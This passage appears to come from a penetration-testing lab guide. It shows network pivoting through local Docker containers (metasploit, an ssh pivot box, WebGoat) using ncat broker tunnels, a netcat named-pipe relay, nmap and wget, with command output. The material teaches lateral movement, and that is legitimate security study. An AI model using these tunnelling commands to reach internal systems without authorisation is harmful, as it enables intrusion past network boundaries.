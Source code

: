 ```bash
# On attacker / metasploit machine
$ docker exec -it pivots_metasploit_1 /bin/bash
root@12f888991729:/$ ncat -lv --broker -m2 8080
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: DDD9 4DF0 A7D6 3F08 DB62 51C7 4358 04C6 81BF F05A
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080

# On ssh / box to pivot from
$ ssh pentester@localhost -p 20022
pentester@localhosts password: 
pentester@47ab62bc2f3d:~$ ncat -v metasploit 8080 -c "ncat -v webgoatlocal 8080"
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Connected to 172.21.0.2:8080.

## Attacker machine on a separate bash session - use wget to retrieve page
## I use nmap here, but I can only scan port 8080.
root@12f888991729:/$ nmap -sS -P0 -p8080 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-19 13:54 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000098s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

### Tunnel with netcat

Netcat is similar, but the connection will close on a variety of conditions and need to be restarted, generally after a full connection, including one full HTTP request.

```bash
# Make backpipe to pass data around
mknod pivot p
# Setup the listener on pivot machine - forward traffic the
# pivot machine receives on port 8080 to the webgoat server 
# port 8080
nc -l -p 8080 0<pivot | nc webgoatlocal 8080 1>pivot

## On attacker machine (metasploit)
root@12f888991729:/$ wget ssh:8080/WebGoat
Saving to: ‘WebGoat'
```

## Method 4: Installing tools on the target machine
